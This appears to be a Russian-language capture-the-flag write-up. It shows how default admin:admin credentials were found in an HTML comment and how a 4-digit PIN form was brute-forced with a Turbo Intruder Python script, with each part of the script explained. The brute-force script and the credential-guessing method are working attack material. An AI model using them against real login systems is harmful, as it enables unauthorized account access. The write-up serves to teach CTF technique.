





# Pincode 🔢

## Описание задачи 📌

В этой задаче был доступен веб-сервис:

```bash
http://tasks.duckerz.ru:30052
```

Описание задачи:

```text
Мне кажется, я опять забыл свой пароль.
```

На этом этапе мы только открыли стартовую страницу, посмотрели ее исходный код и нашли подсказку для входа.

## Стартовая страница 🔎

Сначала запросили главную страницу:

```bash
curl -i http://tasks.duckerz.ru:30052
```

В ответ сервер вернул HTML-страницу с формой авторизации:

```html
<form method="post">
    <input type="text" name="username" required autofocus autocomplete="off" />
    <input type="password" name="password" required autocomplete="off" />
    <button type="submit">ВЫПОЛНИТЬ ВХОД</button>
</form>
```

В браузере страница выглядела как терминал станции:



## Подсказка в HTML 🧠

В исходном коде страницы был HTML-комментарий:

```html
<!-- ПОДСКАЗКА: ИСПОЛЬЗУЙТЕ СТАНДАРТНЫЕ ДАННЫЕ АДМИНИСТРАТОРА (admin:admin) -->
```

Это дало первую пару учетных данных:

```text
login: admin
password: admin
```

## Вход в систему ⚙️

После этого зашли на сайт под найденными учетными данными:

```text
admin:admin
```

После успешного входа приложение открыло следующий экран - форму ввода 4-значного кода экстренной авторизации:



На этом этапе стало понятно, что дальше нужно разобраться с PIN-кодом. Код состоит из 4 цифр, значит всего существует `10000` вариантов:

```text
0000 - 9999
```

Такой диапазон можно перебрать вручную скриптом или через Burp Suite. Для этой задачи использовался Turbo Intruder.

## Что такое Turbo Intruder 🧰

Turbo Intruder - это расширение для Burp Suite, которое позволяет быстро отправлять большое количество HTTP-запросов. По смыслу оно похоже на Burp Intruder, но дает больше контроля через Python-скрипт и обычно работает быстрее.

Обычный Burp Intruder удобен для простых атак по словарю, но Turbo Intruder лучше подходит, когда нужно:

1. Самостоятельно генерировать payload'ы.
2. Отправлять тысячи запросов.
3. Фильтровать ответы по статусу, длине или содержимому.
4. Автоматически добавлять в таблицу только интересные ответы.

## Как установить Turbo Intruder ⚙️

Самый простой способ - через встроенный магазин расширений Burp Suite:

1. Открыть Burp Suite.
2. Перейти во вкладку `Extensions`.
3. Открыть `BApp Store`.
4. Найти `Turbo Intruder`.
5. Нажать `Install`.

После установки пункт `Send to Turbo Intruder` появляется в контекстном меню запроса.

## Подготовка запроса 🎯

Сначала нужно было отправить один обычный запрос с PIN-кодом и перехватить его в Burp Suite. После этого запрос отправили в Turbo Intruder.

В Turbo Intruder тело запроса заменили на placeholder:

```text
%s
```

Идея в том, что скрипт будет каждый раз подставлять вместо `%s` новое тело POST-запроса:

```text
num1=1&num2=3&num3=3&num4=7
```

Так как форма PIN-кода состоит из четырех отдельных полей, код `1337` отправляется не как одно поле `pin=1337`, а как четыре параметра:

```text
num1=1
num2=3
num3=3
num4=7
```

Подготовленный запрос и скрипт в Turbo Intruder:



## Скрипт для перебора PIN 🔢

Использованный скрипт:

```python
def queueRequests(target, wordlists):
      engine = RequestEngine(
          endpoint=target.endpoint,
          concurrentConnections=5,
          requestsPerConnection=20,
          pipeline=False,
          engine=Engine.THREADED
      )

      for i in range(10000):
          code = str(i).zfill(4)
          body = 'num1=%s&num2=%s&num3=%s&num4=%s' % (code[0], code[1], code[2], code[3])
          engine.queue(target.req, body, label=code)

def handleResponse(req, interesting):
      if req.response and req.status != 200:
          table.add(req)
      elif req.response and req.length != 2625:
          table.add(req)
      elif req.response and 'error-msg' not in req.response:
          table.add(req)
```

## Разбор скрипта 🧠

В Turbo Intruder обычно используются две основные функции:

```python
def queueRequests(target, wordlists):
```

и:

```python
def handleResponse(req, interesting):
```

Первая функция отвечает за генерацию и отправку запросов. Вторая функция обрабатывает ответы сервера.

### Создание движка запросов

```python
engine = RequestEngine(
    endpoint=target.endpoint,
    concurrentConnections=5,
    requestsPerConnection=20,
    pipeline=False,
    engine=Engine.THREADED
)
```

Здесь создается `RequestEngine` - механизм, который будет отправлять запросы.

Параметры:

```text
endpoint=target.endpoint
```

Используется тот же хост, порт и протокол, что и в исходном запросе.

```text
concurrentConnections=5
```

Turbo Intruder будет держать до 5 одновременных соединений с сервером.

```text
requestsPerConnection=20
```

Через одно соединение можно отправить до 20 запросов.

```text
pipeline=False
```

HTTP pipelining отключен. Это более спокойный вариант для простой задачи, чтобы не усложнять поведение соединений.

```text
engine=Engine.THREADED
```

Используется потоковый движок. Он подходит для обычного многопоточного перебора.

### Генерация всех PIN-кодов

```python
for i in range(10000):
```

Цикл перебирает числа от `0` до `9999`.

```python
code = str(i).zfill(4)
```

Число превращается в строку из четырех символов.

Примеры:

```text
0    -> 0000
1    -> 0001
42   -> 0042
1337 -> 1337
```

Это важно, потому что PIN-код всегда 4-значный.

### Формирование POST-тела

```python
body = 'num1=%s&num2=%s&num3=%s&num4=%s' % (code[0], code[1], code[2], code[3])
```

Эта строка берет четыре цифры PIN-кода и раскладывает их по четырем параметрам формы.

Например, если:

```python
code = "1337"
```

то получится:

```text
num1=1&num2=3&num3=3&num4=7
```

### Отправка запроса

```python
engine.queue(target.req, body, label=code)
```

Эта строка добавляет запрос в очередь отправки.

Что здесь происходит:

```text
target.req
```

Это исходный HTTP-запрос из Burp.

```text
body
```

Это payload, который будет подставлен вместо `%s`.

```text
label=code
```

Это подпись строки в таблице результатов. Благодаря этому в Turbo Intruder сразу видно, какой PIN-код дал интересный ответ.

## Фильтрация ответов 🔍

Вторая функция анализирует каждый ответ:

```python
def handleResponse(req, interesting):
```

Задача этой функции - не показывать все 10000 ответов, а добавить в таблицу только те, которые отличаются от обычной ошибки.

### Проверка статуса

```python
if req.response and req.status != 200:
    table.add(req)
```

Обычные неверные PIN-коды возвращали страницу с ошибкой и статусом `200 OK`. Если статус отличается от `200`, ответ может быть интересным.

В итоге правильный PIN дал:

```http
HTTP/1.1 302 Found
Location: admin.php
```

То есть сервер не просто показал страницу ошибки, а перенаправил нас в админ-панель.

### Проверка длины ответа

```python
elif req.response and req.length != 2625:
    table.add(req)
```

У неправильных ответов была одинаковая длина. Если длина отличается от `2625`, значит ответ отличается от стандартной ошибки.

Это удобный способ найти правильный ответ, даже если статус остался бы `200`.

### Проверка текста ошибки

```python
elif req.response and 'error-msg' not in req.response:
    table.add(req)
```

Если в ответе нет строки `error-msg`, значит это, скорее всего, не обычная ошибка ввода PIN-кода.

Такой фильтр помогает отсеять все неправильные попытки.

## Результат атаки ✅

После запуска атаки Turbo Intruder нашел отличающийся ответ:

```text
label: 1337
status: 302
Location: admin.php
```

На скрине видно, что для PIN-кода `1337` сервер вернул редирект:



Это означало, что правильный код:

```text
1337
```

После перехода на `admin.php` открылся экран с ключом доступа:



Сам флаг на скрине замазан, чтобы не палить ответ в публичном writeup.

## Текущий статус 🏁

Краткая цепочка решения:

```text
GET / -> HTML-комментарий -> admin:admin -> PIN-форма -> Turbo Intruder -> 1337 -> admin.php -> flag
```

Итоговая идея задачи: стандартные учетные данные открывали форму восстановления, а 4-значный PIN-код можно было перебрать, потому что диапазон был маленьким и сервер явно отличал правильный ответ редиректом.

Автор: masquadd :) ✍️
